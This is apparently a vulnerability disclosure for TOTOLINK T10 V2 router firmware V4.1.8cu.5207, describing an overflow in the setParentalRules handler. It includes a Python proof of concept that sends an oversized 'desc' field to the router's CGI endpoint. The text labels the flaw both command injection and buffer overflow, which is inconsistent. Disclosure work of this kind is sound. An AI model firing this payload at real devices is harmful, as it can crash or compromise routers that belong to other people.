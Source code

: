 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://totolink.com.my/products/t10/

## Affected version

T10 V2_Firmware V2_V4.1.8cu.5207

## Vulnerability details

In the T10 V2_Firmware V2_V4.1.8cu.5207 firmware has a command injection vulnerability in the `setParentalRules` function. The `v6` variable receives the `desc` parameter from a POST request. However, since the user can control the input of `desc`, the `strcpy` can cause a buffer overflow vulnerability.

![image-20240902182114993](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240902182114993.png)

![image-20240902182140414](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240902182140414.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {
"topicurl":"setParentalRules",
"addEffect":"1",
"mac":"111",
"desc":"b"*0x1000,
}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240721012919451](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721012919451.png)
